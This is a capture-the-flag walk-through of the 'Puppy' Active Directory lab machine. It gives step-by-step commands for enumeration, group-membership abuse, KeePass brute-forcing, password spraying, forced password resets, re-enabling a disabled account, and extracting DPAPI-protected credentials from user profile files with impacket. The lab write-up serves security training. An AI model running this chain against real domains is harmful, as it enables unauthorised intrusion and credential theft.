

# Puppy Machine Walk-through

<figure><figcaption></figcaption></figure>

### Machine Information

Puppy is a medium Level Windows machine from session 8.

As is common in real life pentests, you will start the Puppy box with credentials for the following account: `levi.james / KingofAkron2025!`

***

### Step-1

First we perform the Nmap scan for open Ports and Services:

```bash
nmap -sV -T4 10.10.11.70

Nmap scan report for 10.10.11.70
Host is up (0.090s latency).
Not shown: 985 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-31 15:55:49Z)
111/tcp  open  rpcbind       2-4 (RPC #100000)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
2049/tcp open  nlockmgr      1-4 (RPC #100021)
3260/tcp open  iscsi?
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 137.72 seconds
```

***

### Step-2

Here we can see the Domain puppy.htb. Now add this to our /etc/hosts file:

```bash
sudo echo "10.10.11.70 puppy.htb" | sudo tee -a /etc/hosts
```

***

### Step-3

Now we can see in nmap scan result that there RPC service is running. Now we try to enumerate the user via RPC by using the given username and password in the machine:

```bash
rpcclient puppy.htb -U levi.james
```

Here we get the lists of user name.

***

### Step-4

Now we try to enumerate smb by using smbmap:

```bash
smbmap -H 10.10.11.70 -u 'levi.james' -p 'KingofAkron2025!' 
```

<figure><figcaption></figcaption></figure>

Here we see the interestion share called **DEV** but it is currently inaccessible.

***

### Step-5

Now we try to collects Active Directory data from the domain puppy.htb and generates a zipped. BloodHound ingestion file using credentials for levi.james.

```bash
bloodhound-python -u 'levi.james' -p 'KingofAkron2025!'  -d puppy.htb -ns 10.10.11.70 -c All --zip
```

On Bloodhound we found many users and groups. Two interesting groups are **“Developers”** and **“Senior Devs”** and their users. Looking relationships from the only user we have **(levi.james)** we can see that he is part of the **“HR”** group and this group has **“GenericWrite”** to **“Developers”** group.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

***

### Step-6

Now we can try to add the user “levi.james” to the “Developers” group by abusing “GenericWrite” relation:

```bash
bloodyAD --host '10.10.11.70' -d 'dc.puppy.htb' -u 'levi.james' -p 'KingofAkron2025!' add groupMember DEVELOPERS levi.james 
```

***

### Step-7

Now check if we have access to "DEV" Share folder:

```bash
smbclient //10.10.11.70/DEV -U levi.james
```

<figure><figcaption></figcaption></figure>

Yes we should have access to "DEV" share folder.\
Now here we see that the Project is an empty folder but we can download the “recovery.kdbx” file and check if we can see the content.

***

### Step-8

Here we can see that the “recovery.kdbx” file is password protected but we try to bruteforce the password by using keepass4brute.sh:

🔗Source: \[https://github.com/r3nt0n/keepass4brute]

> Note: To run keepass4brute.sh requires the keepassxc-cli command-line tool to brute-force the KeePass database.\
> So, we first need to download keepassxc:
>
> ```bash
> sudo apt update
> sudo apt install keepassxc -y
> ```

Afetr that we perform brute force the password:

```bash
./keepass4brute/keepass4brute.sh recovery.kdbx /usr/share/wordlists/rockyou.txt
```

<figure><figcaption></figcaption></figure>

And we get the code `liverpool` I use it here to open the file.\
Now we can proceed to open the file and see the content.\
Inside the file we found many users and passwords.

<figure><figcaption></figcaption></figure>

***

### Step-9

Now we create username.txt and password.txt files by using the uesrnames and password we found.

***

### Step-10

Now we try to password sprying attack with the users and passwords we found:

```bash
netexec smb 10.10.11.70 -u username.txt -p password.txt
```

<figure><figcaption></figcaption></figure>

We can see that One of the users has a valid password: `ant.edwards:Antman2025!`

***

### Step-11

Now again we try to collects Active Directory data from the domain `puppy.htb` and generates a zipped. BloodHound ingestion file using credentials for `ant.edwards:Antman2025!`.

Looking on Bloodhound we can see that **levi.james** and **ant.edwards** doesn’t have permission to remote access but **adam.silver** have it.\
From **ant.edwards** user we found a relation **“GenericAll”** to **adam.silver** so we can abuse it from many ways, one of them is changing his password.

<figure><figcaption></figcaption></figure>

***

### Step-12

Now we can try to change the password of `adam.silver`:

```bash
bloodyAD --host '10.10.11.70' -d 'dc.puppy.htb' -u 'ant.edwards' -p 'Antman2025!' set password ADAM.SILVER Passw0rd!
```

<figure><figcaption></figcaption></figure>

***

### Step-13

Now, we should have access through evil-winrm but one particular problem with **adam.silver** is that the user is disabled so we need to enable it first.

<figure><figcaption></figcaption></figure>

Used ldapsearchLook to check it:

```bash
ldapsearch -x -H ldap://10.10.11.70 -D "ANT.EDWARDS@PUPPY.HTB" -W -b "DC=puppy,DC=htb" "(sAMAccountName=ADAM.SILVER)"
```

> Note: `userAccountControl: 66050` Indicates that the account is disabled.

We can use `ldapmodify` tool to enable ethe user.

```bash
ldapmodify -x -H ldap://10.10.11.70 -D "ANT.EDWARDS@PUPPY.HTB" -W << EOF
dn: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
changetype: modify
replace: userAccountControl
userAccountControl: 66048
EOF
```

Check it is working properly or not:

```bash
ldapsearch -x -H ldap://10.10.11.70 -D "ANT.EDWARDS@PUPPY.HTB" -W -b "DC=puppy,DC=htb" "(sAMAccountName=ADAM.SILVER)"
```

<figure><figcaption></figcaption></figure>

Yes the value is change to: `userAccountControl: 66048` means it is working properly.

***

### Step-14

Now we try to get remote access the system by using the hash. And we successfully get remote access and user flag.

```bash
evil-winrm -i 10.10.11.70 -u 'adam.silver' -p 'Passw0rd!' 
```

<figure><figcaption></figcaption></figure>

***

### Step-15

Now we can see inside the C: Drive interesting folder we found collad Backups.

Downloading the backup, descompressing and looking into it we should see a XML.BAK file. Inside this file we found a new password for the user steph.cooper.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

***

### Step-16

Now Bloodhound research again and we found that steph.cooper has remote access permission and there is another similar user: `steph.cooper_adm`. Looks like that steph.cooper has two separate accounts for different tasks (i.e administrative tasks) so we can think that **steph.cooper** uses this admin account from the normal one to access/read/write files/folders that he doesn’t normally have access to.

<figure><figcaption></figcaption></figure>

Now we connect the evil-winrm with the help of `steph.cooper:ChefSteph2025!`

```bash
evil-winrm -i 10.10.11.70 -u 'steph.cooper' -p 'ChefSteph2025!'
```

***

### Step-17

Now we can search for encripted files using DPAPI (i.e network stored credentials) and try to bruteforce the masterkey to decrypt the content of these files.\
We should see the master key located in:

```cmd
C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107
```

If we try to download it with evil-winrm we would get an error, so we can try to do a base64 encode/decode:

```cmd
[Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407"))
```

<figure><figcaption></figcaption></figure>

***

### Step-18

we have the base64 hash now we try to decode it and save it in master.key file:

```bash
echo "base64encoded" | base64 -d > master.key
```

<figure><figcaption></figcaption></figure>

***

### Step-19

For encrypted files, some of the normal locations are:

```cmd
C:\Users\steph.cooper\AppData\Local\Microsoft\Credentials
C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials
C:\Users\steph.cooper\AppData\Local\Microsoft\Vault
```

```cmd
[Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9"))
```

<figure><figcaption></figcaption></figure>

We get this. now again we try to decode it and save it is creds\_blob file:

```bash
echo "base64encoded" | base64 -d > creds_blob
```

<figure><figcaption></figcaption></figure>

***

### Step-20

Now we try to Decrypts the DPAPI master key file using the `ChefSteph2025!` password and user SID `S-1-5-21-1487982659-1829050783-2281216199-1107` to retrieve the plaintext master key for decrypting protected user data.

```bash
impacket-dpapi masterkey -file master.key -password 'ChefSteph2025!' -sid S-1-5-21-1487982659-1829050783-2281216199-1107 
```

<figure><figcaption></figcaption></figure>

***

### Step-21

Now try to get `steph.cooper_adm` password by using **creds\_blob** and **DPAPI Decrypted key**:

```bash
impacket-dpapi credential -file creds_blob -key 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
```

<figure><figcaption></figcaption></figure>

***

### Step-22

Now our final step, try to cunnect evil-winrm by using given username and passwored:

```bash
evil-winrm -i 10.10.11.70 -u 'steph.cooper_adm' -p 'FivethChipOnItsWay2025!'
```

<figure><figcaption></figcaption></figure>

We successfully get the remote connection and root flag.

***

> _I hope you enjoyed this writeup! Happy Hacking :)_
>
> _Follow to me on Medium and be sure to turn on email notifications so you never miss out on my latest informative posts._

### Follow me on below Social Media: <a href="#id-8c4a" id="id-8c4a"></a>

1. _**LinkedIn:**_ [_**Subhadip Sardar**_](http://linkedin.com/in/subhadip-sardar)
2. _**Twitter | X :**_ [_**@Mr\_SubhaDip03**_](https://x.com/Mr_SubhaDip03)
3. _**GitHub :**_ [_**SubhaDip003**_](https://github.com/SubhaDip003)
4. _**Check My TryHackMe Profile :**_ [_**TryHackMe | SubhaDip**_](https://tryhackme.com/r/p/SubhaDip)
5. _**Check My HackTheBox Profile:**_ [_**Hack The Box | SubhaDip03**_](https://app.hackthebox.com/profile/1658126)
